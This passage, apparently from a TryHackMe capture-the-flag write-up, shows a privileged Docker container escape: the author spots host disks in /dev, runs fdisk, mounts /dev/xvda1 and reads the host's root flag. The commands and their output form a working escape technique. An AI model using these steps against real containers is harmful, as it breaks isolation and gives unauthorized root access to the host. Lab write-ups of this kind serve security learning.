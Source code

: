 ```
loop5            stdout    tty27  tty47  ttyS0  vcsa6
loop6            tty       tty28  tty48  ttyS1  vcsa7
root@debian:/# 
```
`/dev/` contains bunch of tty's and specially `xvda` which are disks.
this indicates that the docker we are in is privileged. To escape the docker we need to know the main disk of the machine.
```
root@debian:/# fdisk -l
fdisk -l
Disk /dev/xvdh: 1 GiB, 1073741824 bytes, 2097152 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes


Disk /dev/xvda: 19 GiB, 20401094656 bytes, 39845888 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x119b123f

Device     Boot    Start      End  Sectors  Size Id Type
/dev/xvda1 *        2048 37320703 37318656 17.8G 83 Linux
/dev/xvda2      37322750 39319551  1996802  975M  5 Extended
/dev/xvda5      37322752 39319551  1996800  975M 82 Linux swap / Solaris
root@debian:/# 
```
the main disk of the Host is `xvda1`, so to gain access to host machine we need to mount it.
here are the steps :-
```
root@debian:/# mkdir /mnt/test
mkdir /mnt/test
root@debian:/# mount /dev/xvda1 /mnt/test
mount /dev/xvda1 /mnt/test
root@debian:/# cd /mnt/test/
cd /mnt/test/
root@debian:/mnt/test# ls
ls
bin   etc         initrd.img.old  lost+found  opt   run   sys  var
boot  home        lib             media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64           mnt         root  srv   usr  vmlinuz.old
root@debian:/mnt/test# cd root
cd root
root@debian:/mnt/test/root# ls
ls
dizquetv  root.txt
root@debian:/mnt/test/root# cat root.txt
cat root.txt
THM{REDACTED}
root@debian:/mnt/test/root# 
```

ROOTED!!

